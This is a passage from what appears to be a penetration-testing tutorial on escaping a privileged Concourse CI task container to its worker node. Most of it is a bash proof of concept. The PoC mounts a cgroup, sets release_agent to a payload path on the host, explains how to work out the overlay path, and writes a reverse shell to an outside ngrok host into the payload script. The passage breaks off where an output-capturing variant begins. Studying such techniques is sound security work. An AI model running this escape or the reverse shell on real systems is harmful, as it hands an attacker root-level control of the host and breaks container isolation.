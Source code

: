 ```bash
fly -t tutorial execute --privileged --config task_config.yml
```

#### Escaping to the node from privileged task

In the previous sections we saw how to **execute a privileged task with concourse**. This won't give the container exactly the same access as the privileged flag in a docker container. For example, you won't see the node filesystem device in /dev, so the escape could be more "complex".

In the following PoC we are going to use the release\_agent to escape with some small modifications:

```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

## The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

## Then next part I think is constant "hostpath-provisioner/default/"

## For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)

## The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
```
